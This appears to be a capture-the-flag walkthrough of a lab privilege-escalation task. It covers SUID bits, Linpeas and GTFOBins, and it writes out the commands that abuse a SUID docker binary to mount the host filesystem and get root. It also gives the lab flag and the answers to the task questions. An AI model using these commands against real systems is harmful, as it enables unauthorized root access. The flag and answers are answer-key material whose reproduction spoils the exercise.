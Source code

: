 **Note:** Please be mindful of other users trying to proceed in the network. Please do not stop the Docker container from running. It will prevent users from proceeding throughout the network. Also, please clean up after yourself. If you transfer a docker container image to the VM, remember to remove it after you finish elevating privileges.

![[Task 20 - Call me Mario, because I got all the bits-20240919143826003.webp]]

Now that we have a shell on L-SRV01 and escaped the container, we need to perform local privilege escalation to gain root on the box.  

Local privilege escalation is when you take your average level user access and exploit misconfigurations and applications to gain privileged level access. This is typically done by exploiting a specific application or service that was misconfigured on the device.  

Several resources can help you through privilege escalation on Linux. Some of these resources are outlined below for you to use.  

- [](https://book.hacktricks.xyz/linux-unix/privilege-escalation)[https://book.hacktricks.xyz/linux-unix/privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)
- [](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)[https://github.com/swisskyrepo/PayloadsAllTheThings/](https://github.com/swisskyrepo/PayloadsAllTheThings/)  
- [](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

In this task, we will be covering one specific privilege escalation technique and a script that we can use to speed along the process of finding misconfigurations we can exploit.  

We will utilize a script called Linpeas to run a thorough check of potential exploits to begin our privilege escalation attempts. [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).  

To use Linpeas, we need to download the script from the repository above on our attacking machine. Then we can utilize a web hosting service such as http.server, updog, or php to host the file onto the target machine. Linpeas does not require any arguments or parameters to run; you only need to run it as a standard binary.  

Syntax: `./linpeas.sh`

Linpeas may take around 5-10 minutes to complete. Once complete, you would need to parse through the output and look for any potentially valuable information.  

The specific exploit that we will be looking at is abusing the SUID bit set on binaries. From [linux.com](http://linux.com/) *"SUID (Set owner User ID upon execution) is a special type of file permissions given to a file. Normally in Linux/Unix when a program runs, it inherits access permissions from the logged-in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather than the user who runs it."* This means that if the program or file is running as root and we have access to it, we can abuse it to grant us root-level access. Below you can find what the SUID bit looks like, along with a table of other bits that can be set.  

![[Task 20 - Call me Mario, because I got all the bits-20240919143651873.webp]]

|   |   |   |
|---|---|---|
|**Permission**|**On Files**|**On Directories**|
|SUID Bit|User executes the file with permissions of the _file_ owner|-|
|SGID Bit|User executes the file with the permission of the _group_ owner.|File created in directory gets the same group owner.|
|Sticky Bit|No meaning|Users are prevented from deleting files from other users.|

Besides using Linpeas to find the files with a SUID bit, you can also use a bash one-liner shown below to search for files with this bit set.  

Command: `find / -perm -u=s -type f 2>/dev/null`

Once we have identified a file that we thank may be exploitable, we need to search for an exploit for it. A helpful resource to search for exploits on specific applications and programs is GTFOBins, [https://gtfobins.github.io/](https://gtfobins.github.io/).  

An example of an exploit can be found below for a dig SUID. Exploits may vary between each application and vulnerability as each has its unique ways security researchers have found they can be abused.  

![[Task 20 - Call me Mario, because I got all the bits-20240919143733244.webp]]

If successful, you should now have the same permission levels as the binary you exploited.


---

# Your job


- Run `find / -perm -u=s -type f 2>/dev/null`.
	![[Task 20 - Call me Mario, because I got all the bits-20240920144647952.webp]]

- Check the permissions on the `/usr/bin/docker` file.
	www-data@ip-10-200-95-33:/var/www/html$ `ls -la /usr/bin/docker`
	![[Task 20 - Call me Mario, because I got all the bits-20240920150939806.webp]]
	With the suid bit set, you can execute this binary as root.

## gtfobins

- Looking at gtfobins you'll find that, you can use this docker binary to escalate privilege. 
- The way it works is, you are gonna spawn up a docker container and as SUID-bit is set, you can do it as root. 
- Then you will mount the entire file system in one of the directories inside docker, that way you can visit that directory and access the entire file system of the actual host machine. 
- To spawn up a docker container, you need to find a docker image. 
- You already know a ubuntu image is there on the machine because an ubuntu docker container is running in the network, so you’ll find that with :

	www-data@ip-10-200-95-33:/var/www/html$ `docker image ls`
	![[Task 20 - Call me Mario, because I got all the bits-20240920152123566.webp]]


- Look for `docker` on gtfobins.
	![[Task 20 - Call me Mario, because I got all the bits-20240920151524586.webp]]

- Stabilize the shell.  
	`python3 -c 'import pty; pty.spawn("/bin/bash")'`

- Run the final command and spawn up that image with root permission.
	www-data@ip-10-200-95-33:/var/www/html$ `/usr/bin/docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt bash`
	![[Task 20 - Call me Mario, because I got all the bits-20240920152724566.webp]]

- This command actually goes ahead and runs the container in interactive mode using the `ubuntu:18.04` image. 
- Mounts the host OS root directory / entire file system in the `/mnt` directory of docker container. 
- Then changes the default root directory of the docker container to the `/mnt` directory. 
- That means you don’t have to go to `/mnt` to visit the entire filesystem, the root directory is already set to that.

> [!INFO]
You are root onto  L-SRV01.

---

## Flag after rooting L-SRV01

- On container shell go to root@c7aa4ecf64fa:~# `/root` and run:  
    `cat root.txt`
    
    HOLO{e16581b01d445a05adb2e6d45eb373f7}
    
- Submit the user flag on Task 4, question 3.


## Answer the questions

> What is the full path of the binary with an SUID bit set on L-SRV01?
> `/usr/bin/docker`

> What is the full first line of the exploit for the SUID bit?
> `sudo install -m =xs $(which docker) .`


**Next step:** [[Task 21 - From the Shadows]]
